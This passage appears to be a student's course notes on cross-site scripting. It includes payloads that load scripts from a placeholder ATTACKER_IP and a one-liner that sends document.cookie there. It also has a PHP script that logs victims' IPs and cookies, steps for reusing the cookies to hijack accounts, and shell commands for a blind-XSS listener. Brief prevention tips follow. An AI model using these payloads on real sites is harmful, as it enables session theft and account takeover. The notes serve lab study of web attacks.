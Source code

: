     ```html
    "><script src=http://ATTACKER_IP/url></script>
    ```
  
  * After finding the vulnerable input field with working XSS payload, we can [refer JS payloads to grab session cookies](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc)

  * For example, if we want to use the payload ```new Image().src='http://ATTACKER_IP/index.php?c='+document.cookie;```, we need to write it to a ```script.js``` file; and our updated payload should be ```"><script src=http://ATTACKER_IP/script.js></script>```

  * For multiple cookies, it's better to use a PHP script and save it to ```index.php``` (re-run the PHP server):

    ```php
    <?php
    if (isset($_GET['c'])) {
        $list = explode(";", $_GET['c']);
        foreach ($list as $key => $value) {
            $cookie = urldecode($value);
            $file = fopen("cookies.txt", "a+");
            fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
            fclose($file);
        }
    }
    ?>
    ```
  
  * Once the victim visits the vulnerable page and views the XSS payload, we would be able to see the requests and the cookies would be stored to a file

  * This cookie can be used on the ```login.php``` page to access the victim's account by using Developer Tools > Storage

* XSS Prevention:

  * Front-end:

    * Input validation
    * Input sanitization
    * Avoid using direct user input
  
  * Back-end:

    * Input validation
    * Input sanitization
    * Output HTML encoding
    * Server configuration

## Skills Assessment

* We can go for blind XSS detection as the blog page contains 4 fields - comment, name, email and website - and it is mentioned the comment may need to be approved by an admin.

  ```shell
  mkdir /tmp/tmpserver

  cd /tmp/tmpserver

  vim index.php
  # create the PHP script given for blind XSS to store cookies

  sudo php -S 0.0.0.0:80
  ```
